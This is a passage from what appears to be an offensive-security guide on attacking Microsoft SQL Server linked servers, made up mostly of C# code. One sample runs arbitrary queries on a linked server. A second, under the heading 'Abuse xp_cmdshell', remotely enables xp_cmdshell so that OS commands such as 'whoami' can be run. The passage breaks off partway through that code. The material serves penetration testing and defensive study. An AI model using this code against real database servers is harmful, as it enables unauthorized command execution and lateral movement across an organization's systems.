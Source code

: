#### 2. **Execute Commands on Linked Servers**

You can also run arbitrary commands on the linked server under the security context of the linked server's login.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=your_sql_server_instance;Integrated Security=True;";
        string linkedServer = "LinkedServerName";
        string command = "SELECT SYSTEM_USER AS CurrentUser, SESSION_USER AS SessionUser;";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();

            string query = $"EXEC [{linkedServer}].master.dbo.sp_executesql N'{command}';";
            using (SqlCommand sqlCommand = new SqlCommand(query, connection))
            {
                using (SqlDataReader reader = sqlCommand.ExecuteReader())
                {
                    while (reader.Read())
                    {
                        Console.WriteLine($"Connected as {reader["CurrentUser"]} / {reader["SessionUser"]}");
                    }
                }
            }
        }
    }
}
```

#### 3. **Abuse `xp_cmdshell` on Linked Servers**

If `xp_cmdshell` is enabled on the linked server, you can run OS-level commands remotely.

```csharp
using System;
using System.Data.SqlClient;

class Program
{
    static void Main()
    {
        string connectionString = "Server=your_sql_server_instance;Integrated Security=True;";
        string linkedServer = "LinkedServerName";
        string command = "whoami";

        using (SqlConnection connection = new SqlConnection(connectionString))
        {
            connection.Open();

            // Enable xp_cmdshell if needed
            string enableCmdShellQuery = $"EXEC [{linkedServer}].master.dbo.sp_configure 'xp_cmdshell', 1; RECONFIGURE;";
            using (SqlCommand enableCmdShellCommand = new SqlCommand(enableCmdShellQuery, connection))
            {
                enableCmdShellCommand.ExecuteNonQuery();
            }
```